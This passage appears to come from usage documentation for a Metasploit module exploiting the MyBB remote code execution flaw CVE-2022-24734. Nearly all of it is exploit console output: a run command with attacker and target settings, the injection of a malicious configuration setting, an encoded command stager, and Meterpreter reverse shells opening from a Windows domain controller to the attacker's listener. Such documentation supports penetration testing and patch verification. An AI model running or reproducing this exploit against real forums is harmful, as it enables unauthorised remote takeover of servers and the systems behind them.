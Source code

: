 ```
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Meterpreter session 6 opened (192.168.1.44:4444 -> 192.168.1.215:59025) at 2022-05-30 15:58:01 +0200

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
```


### Windows (target 4 - Windows (Dropper))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 5
target => 5
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAA...
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
...
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Meterpreter session 7 opened (192.168.1.44:4444 -> 192.168.1.215:64264) at 2022-05-23 15:45:07 +0200

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
```